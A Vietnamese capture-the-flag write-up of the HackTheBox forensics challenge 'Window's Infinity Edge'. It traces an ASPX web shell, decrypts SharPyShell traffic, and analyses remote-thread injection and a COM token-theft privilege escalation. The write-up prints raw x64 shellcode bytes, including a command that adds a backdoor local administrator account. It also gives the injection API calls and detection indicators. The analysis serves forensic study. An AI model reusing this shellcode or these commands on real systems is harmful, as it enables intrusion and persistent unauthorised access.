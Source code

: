 ```yaml
---
title: HTB Window's Infinity Edge
published: 2025-07-24
description: This is one of challenge which I liked the most of HTB series
tags: [Debugging, Traffic Analysis]
category: Shellcode
draft: false
---
```


# HTB Window's Infinity Edge
>author : kAiZ3n
>Decription : A motivated APT group has breached our company and utilized custom tooling. We've identified the implants on compromised systems and remediated the infection using advanced AntiVirus X. However, one server seems clean but has been exhibiting suspicious traffic. Can you spot something we could have missed while cleaning this system?
## Xử lý file pcap
![image](./markdown/HyUa_qAIlx.png)

- Đầu tiên ta thấy Client gửi request tới server thông qua format multi data và ta thấy client đã Post một file upload.apsx thông qua /upload
tại lúc xử lý file tôi thấy nó sử dụng một Class Assembly.Load() đây được coi là red flag thường được dùng load các mal EXE or DLL
- Tạo môt Instance để runtime trong .NET
- sau đó nó sẽ truyền parameter vào là p and r
- p là dữ liệu người dùng trong requestFrom từ "data"
- r là hardcode 
![payload](./markdown/HJtyO90Lge.jpg)
trích xuất ra file payload.exe check file nhanh với die thì đây là file .NET load vào ILSPY để đọc source
![image](./markdown/S1i4O90Lxx.png)

- RequestForm["data"] là phân vùng bị enc code
- r là password như một hardcode key
- iv = "infinity_edgehtb" (hardcode)
- Attacker sẽ gửi payload ExecRunTime đã bị mã hóa thông qua RequestFrom['data']
- sau đó sẽ dùng key và iv decrypt và thực thi với Invoke
## Decryption Traffic
Check file pcap với các trường data= được gửi trong file shell.apsx
![image](https://hackmd.io/_uploads/rJrB5cCLlg.png)

![image](https://hackmd.io/_uploads/SkUNq9ALex.png)

Đây là script tôi xử lý
![decrypt](https://hackmd.io/_uploads/H1ilcqAUxg.jpg)

## Phân tích Traffic PlainText
Format output trong file Decrypt.bin
![image](https://hackmd.io/_uploads/HJnqq9ALll.png)
Đúng như idea ban đâu mỗi lần Request payload sẽ có một class SharPyShell và func ExecRunTime để Invoke và thực thi trên server theo như logic file NET


### Tiếp theo nó sẽ Drop một tool powershell script dùng để leo quyền (Privilege Escalation)
Spawn một cái powershell 
![payloadshell](https://hackmd.io/_uploads/SJxKCHALee.jpg)


![image](https://hackmd.io/_uploads/ByQU8IpLge.png)
Decrypt payload với base sau đó Xor với key
và chạy tools với các đối số 
Output 
![image](https://hackmd.io/_uploads/SJECLIaIlg.png)


### Xử lý Shellcode
Trong Script được gửi bởi attacker thì có 2 function InjectionShellcodeAsUser và InjectionShellcode

![payloadshell](https://hackmd.io/_uploads/SkyA3BCIxl.jpg)

snapshort ThreadParametes được truyền vào
![image](https://hackmd.io/_uploads/B1wgqGpIle.png)
1. Đăng nhập với user
2. Tạo một Process cmd.exe hoặc nếu Process có sẳn sẽ lấy PID được truyền vào hàm Injection Shellcode 
Mở Handle targetProcessHandle = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, false, processId); đóng vai trò Spawn Host cho DLL
3. Tính size và allocate shellcode vào memory và tính toán offset trong Memory với VirtualAllocA() và ghi shellcode vào vùng nhớ đó trong Process với WriteMemory() 
**IntPtr codeMemAddress = VirtualAllocEx(targetProcessHandle, IntPtr.Zero, codeMemorySize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);**

4. Tạo thread trong tiến trình cmd.exe:
Tạo RemoteThread chạy shellcode tại codeMemAddress, truyền threadParameterAddress vào.

**Đây gọi là kỹ thuật RemoteThread Injection**
**Tương tự cho InjectionShellcode**

### Phân tích shellcode DLL với IDAPro
**Tại điểm này call InjectShellcode với Entry 0x2880**

Chương trình sẽ gọi tới EntryPoint

![image](https://hackmd.io/_uploads/BkVx6B08xl.png)
Chương trình sẽ parser input và truyền vào hàm Juicy với phần payload shellcode
```
ThreadParameter:
    [filepath]\0
    [application_name]\0
    [CLSID]\0
    [port_Source]\0
    [ip_source]\0
    [port Destination]\0
    [ip_Dest]\0
    [Size of Payload Shellcode]\0
    [string_after_number]

```
### Parser ThreadParameter
![code](https://hackmd.io/_uploads/BJYD9BRLel.png)
```
Output:
[+] Parsed Data:
  filepath: C:\Windows\Temp\x1fvogijp5pyzn7\9nu8w1q
  application_name: notepad.exe
  clsid: {4991d34b-80a1-4291-83b6-3328366b9097}
  port_or_id: 48278
  ip_source: 127.0.0.1
  extra_wstring: 135
  copied_ascii: 127.0.0.1
  Juicy Payload size: 402
  juicy_payload: b'\xfcH\x83\xe4\xf0\xe8\xc0\x00\x00\x00AQAPRQVH1\xd2eH\x8bR`H\x8bR\x18H\x8bR H\x8brPH\x0f\xb7JJM1\xc9H1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRAQH\x8bR \x8bB<H\x01\xd0\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0P\x8bH\x18D\x8b@ I\x01\xd0\xe3VH\xff\xc9A\x8b4\x88H\x01\xd6M1\xc9H1\xc0\xacA\xc1\xc9\rA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88H\x01\xd0AXAX^YZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9W\xff\xff\xff]H\xba\x01\x00\x00\x00\x00\x00\x00\x00H\x8d\x8d\x01\x01\x00\x00A\xba1\x8bo\x87\xff\xd5\xbb\xf0\xb5\xa2VA\xba\xa6\x95\xbd\x9d\xff\xd5H\x83\xc4(<\x06|\n\x80\xfb\xe0u\x05\xbbG\x13roj\x00YA\x89\xda\xff\xd5cmd /c "net user /add admin_infinity ""Password2!"" /Y & net localgroup Administrators admin_infinity /add & echo xGk89_Ew > C:\\xor.k"\x00'
```
trong Hàm Juicy có tạo một Thread với function StartAddress cho việc xử lý Connection Network
và tại hàm Juicy tiếp quy trình Spawn Host Process và Injection Shellcode với **CreateRemoteThread**
![image](https://hackmd.io/_uploads/SJwmASRIll.png)
**Thành phần	Mục đích**
- a1 (CLSID)	Gọi COM trigger để lấy token SYSTEM
- a3, a4 (payload, size)	Shellcode được inject vào process mới
- CoGetInstanceFromIStorage	Trigger đối tượng COM
- CreateProcessWithTokenW / CreateProcessAsUser	Tạo process với token SYSTEM
WriteProcessMemory + CreateRemoteThread	Inject và thực thi payload

**Dấu hiệu tấn công / detection**
- Tạo ILockBytes, IStorage giả.
- Gọi CoGetInstanceFromIStorage với CLSID lạ.
- CreateProcessWithTokenW + VirtualAllocEx + WriteProcessMemory
- CLSID thường là COM hijack hoặc UAC bypass trigger.

Dump shellcode payload juicy ra va dung Floss
![image](https://hackmd.io/_uploads/ryhHZURLgl.png)
### InjectShellcodeAs be called và xử lý với x64dbg
![InjectShellcodeAS](https://hackmd.io/_uploads/Skd2W8CLlx.png)
![image](https://hackmd.io/_uploads/ry_lMU0Lgg.png)
shellcode này có dung tệp C:\xor.k được  tạo từ shellcode juicy payload
tôi sử dụng shcode2.py để convert shellcode.bin to EXE và debug nó trong x64dbg
![image](https://hackmd.io/_uploads/B1axpKAUee.png)
ngay tại điểm đầu code nó đã call một function và ta thấy các giá trị "C:\xor.k được hiển thị"
![image](https://hackmd.io/_uploads/S1Q2pFRUge.png)
Thử debug và chương trình đã bị crash ở vùn đọc file tôi nghĩ do không thể truy cập vùng nhớ lúc đọc file và tôi sẽ cấp quyền cho 2 vùng nhớ [rsp+10] và [rsp+20] sau đó debug tiếp
Tại offset 
```
mov qword ptr ss:[rsp+10h] ,rbx 
```
cấp quyền Write cho phân vùng này của kernel32 để sử dụng WriteFile/ReadFile ghi dữ liệu
![image](https://hackmd.io/_uploads/B1GLmqR8lx.png)
ER-- to ERW--
Tại offset
```
mov qword ptr ss:[rsp+20], r9
```
cấp quyền cho phân vùng r9
![image](https://hackmd.io/_uploads/SyJy4qRLxg.png)
![image](https://hackmd.io/_uploads/r1Sb450Uxe.png)
của .text file shel2.exe cho phép đọc và ghi dữ liệu
Do không có quyền truy cập vùng nhớ file và tôi phải patch nên dữ liệu đọc được sẽ là giá trị rác
![image](https://hackmd.io/_uploads/BJ2erqRLgx.png)

đặt breakpoint ở offset = 00007FF6214B1145
Fix lại giá trị rác của [rsp+161]
```
FF FE 78 00 47 00 6B 00 -> xGk89_Ew
```
vì thế đến đoạn xử lý [rsp+161] được coi là buffer of File tôi sẽ điền value file ở đó
và tiếp tục xor để lấy flag
![image](https://hackmd.io/_uploads/SkTrrqA8xg.png)

PS: Bài này mình thấy khá là nặng về Obfuscation và Reverse Engineering nếu như intend solution không cần phải guessy

